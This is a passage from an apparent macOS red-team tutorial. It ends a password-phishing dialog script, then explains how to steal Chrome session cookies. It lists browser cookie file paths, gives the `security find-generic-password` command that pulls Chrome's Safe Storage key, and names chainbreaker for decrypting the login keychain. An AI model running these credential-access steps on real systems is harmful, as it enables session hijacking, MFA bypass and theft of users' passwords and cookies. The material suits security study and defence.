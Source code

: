 ```js
    } catch (err) {
        if (err.errorNumber === -128) {
            app.displayAlert("Dialog cancelled", {
                message: `${fullName}, you cancelled the password entry.`,
                as: "warning"
            })
        } else {
            throw err
        }
    }
    return null  // Return null if cancelled or an error occurred
}

// Execute the function and store the result
const result = run()

// Display the result (be careful with this in a real scenario!)
if (result !== null) {
    app.displayDialog(`Debug: The entered password was "${result}"`)
}
```

# credential access via chrome cookies

browser cookies are a highly valuable vector for attackers. cookies contain session identifiers that allow users to stay logged in, so if an attacker [steals them](https://eitca.org/cybersecurity/eitc-is-wasf-web-applications-security-fundamentals/session-attacks/cookie-and-session-attacks/examination-review-cookie-and-session-attacks/how-can-an-attacker-steal-a-users-cookies-using-a-http-get-request-embedded-in-an-image-source/), they can impersonate the user without needing credentials. 

armed with valid session cookes, attackers can also [bypass MFA](https://www.techtarget.com/searchsecurity/definition/cookie-poisoning) because the system assumes the user has already completed the MFA process. let's see how we can steal some cookies!

the "big 3" browsers store their cookies in different locations.

```
safari: ~/Library/Safari/LocalStorage/*
firefox: ~/Library/Application Support/Firefox/Profiles/*.default/cookies.sqlite
chrome: ~/Library/Application Support/Google/Chrome/Default/Cookies
```

chrome encrypts important user data files (cookies, passwords, payment information, authentication tokens) with a key stored in the user's login keychain. this key is stored under `Chrome Safe Storage` in the keychain, and is base64 encoded.

to retrieve the key, just use the following command: `security find-generic-password -wa "Chrome Safe Storage"`

this retrieved key can be used directly in the base64-encoded form for decryption operations.

using [chainbreaker](https://github.com/n0fate/chainbreaker), you can extract a bunch of information from your macOS keychain. all you have to do is provide the path to your login keychain (usually at `~/Library/Keychains/login.keychain-db`), and chainbreaker will output a bunch of decrypted information.
